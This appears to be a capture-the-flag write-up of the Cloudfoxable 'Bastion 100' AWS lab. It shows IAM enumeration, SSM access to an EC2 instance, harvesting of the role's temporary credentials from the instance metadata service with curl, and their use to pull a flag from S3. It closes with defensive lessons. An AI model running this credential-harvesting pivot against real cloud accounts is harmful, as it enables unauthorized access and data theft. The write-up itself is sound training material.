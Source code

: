 # Cloudfoxable - Bastion 100

## Challenge Statement

In this challenge, we were provided with a bastion host setup in AWS that acted as a gateway to other resources. The goal was to leverage AWS IAM enumeration techniques to gain access to an EC2 instance via AWS Systems Manager (SSM) and retrieve a flag stored in an S3 bucket. This challenge tested knowledge of AWS IAM roles, instance profiles, SSM session management, and S3 permissions.

## Analysis

The challenge setup included a user profile `ctf-starting-user` configured in `~/.aws/credentials` under the profile `cloudfoxable`. The first step was to enumerate IAM policies attached to this user to understand the permissions available.

### **Enumerating IAM Policies**

We checked the managed policies attached to the user:

```bash
aws iam list-attached-user-policies --user-name ctf-starting-user --profile cloudfoxable
```

One of the attached policies was `SecurityAudit`, which provides read access to various AWS services, including IAM. This allowed further enumeration of permissions:

```bash
aws iam get-policy --policy-arn arn:aws:iam::aws:policy/SecurityAudit --profile cloudfoxable
```

Fetching the policy document revealed permissions for `Get*`, `Describe*`, and `List*` actions across multiple AWS services, confirming that the user had sufficient rights to inspect IAM roles and policies.

### **Identifying EC2 Access via SSM**

Another policy, `bastion-ssm`, caught our attention:

```bash
aws iam get-policy --policy-arn arn:aws:iam::425670648728:policy/bastion-ssm --profile cloudfoxable
```

Examining the policy document confirmed that the user could start an SSM session on a specific EC2 instance (`i-09a523312d972cb80`).

```bash
aws ssm start-session --target i-09a523312d972cb80 --profile cloudfoxable
```

Upon successfully connecting to the instance, we shifted focus to discovering IAM roles associated with it.

### **Enumerating Instance Profile and Associated Role**

We used the EC2 instance metadata service to determine the IAM instance profile:

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials
```

Alternatively, using AWS CLI:

```bash
aws ec2 describe-instances --instance-ids i-09a523312d972cb80 --query "Reservations[].Instances[].IamInstanceProfile" --profile cloudfoxable
```

The instance profile was named `bastion`, and the associated IAM role was `reyna`.

```bash
aws iam get-instance-profile --instance-profile-name bastion --query 'InstanceProfile.Roles[0].[RoleName, Arn]' --profile cloudfoxable
```

### **Checking Role Permissions**

To determine what the `reyna` role could access, we listed its attached policies:

```bash
aws iam list-attached-role-policies --role-name reyna --profile cloudfoxable
```

A policy named `bastion-s3` stood out. Investigating further:

```bash
aws iam get-policy --policy-arn arn:aws:iam::425670648728:policy/bastion-s3 --profile cloudfoxable
```

The policy allowed listing and retrieving objects from the S3 bucket `cloudfoxable-bastion-v1ubc`.

## Solution

### **Retrieving Temporary AWS Credentials**

Since the EC2 instance had the `reyna` role, we could retrieve temporary credentials from the metadata service:

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/reyna
```

Using these credentials, we created a local AWS profile:

```ini
[profile bastion]
aws_access_key_id = <ACCESS_KEY>
aws_secret_access_key = <SECRET_KEY>
aws_session_token = <SESSION_TOKEN>
```

### **Accessing the S3 Bucket and Retrieving the Flag**

With the `bastion` profile set up, we listed the S3 bucket contents:

```bash
aws s3 ls s3://cloudfoxable-bastion-v1ubc --profile bastion
```

Finding the flag file, we downloaded it:

```bash
aws s3 cp s3://cloudfoxable-bastion-v1ubc/flag.txt $PWD --profile bastion
```

This revealed the flag:

```
FLAG:bastion::ifYouHaveAccessToAnEC2YouHaveAccessToItsIamPermissions
```

## Reflection

### **Approach Taken**

- Enumerated IAM policies and permissions.
- Identified SSM access to the EC2 instance.
- Retrieved the instance profile and IAM role.
- Leveraged the role’s permissions to access S3 and obtain the flag.

### **Challenges Faced**

- Understanding IAM policy structures and their implications.
- Identifying the correct approach to leverage EC2 role permissions.
- Handling temporary credentials and configuring a local profile.

### **Security Takeaways**

- **EC2 IAM roles should follow the principle of least privilege.** If an EC2 instance has excessive permissions, an attacker gaining access to the instance could escalate privileges.
- **Restrict metadata service access.** Using `IMDSv2` prevents attackers from easily retrieving instance role credentials.
- **Monitor AWS CloudTrail logs.** Unauthorized access attempts or excessive role assumption activity should raise alerts.
- **Use S3 bucket policies carefully.** Allowing broad access to an IAM role attached to an EC2 instance can lead to privilege escalation.

This challenge demonstrated how attackers can pivot from an IAM user to an EC2 instance and escalate privileges using AWS IAM misconfigurations. 🚀
